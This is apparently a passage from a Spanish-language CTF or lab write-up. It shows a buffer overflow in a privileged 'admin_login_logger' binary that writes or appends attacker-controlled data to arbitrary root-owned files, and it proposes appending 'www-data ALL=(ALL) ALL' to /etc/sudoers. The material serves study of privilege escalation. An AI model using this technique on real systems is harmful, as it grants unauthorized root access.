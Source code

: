 ```
$  ./admin_login_logger $(for i in {0..455}; do echo -n A; done)/Hola

Writing datafile ...
*** Error ...
======= Backtrace: =========
...

$ ls / -l

...
-rw------- 1 root       root    466 Jul 29 23:33 Hola
...

$ cat Hola
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/Hola
```

Y si ponemos un archivo existente:

```
$ cp /etc/sudoers /sudoers
$  ./admin_login_logger $(for i in {0..455}; do echo -n A; done)/sudoers
...
$ cat sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/sudoers
```

Podemos observar que el argumento que le pasamos a *admin_login_logger* se añade como
contenido del fichero existente.

Si elegimos con cuidado el contenido del archivo, podemos, por ejemplo, tratar de añadir
la siguiente línea a /etc/sudoers:

```
www-data ALL=(ALL) ALL
#...#/etc/sudoers
```
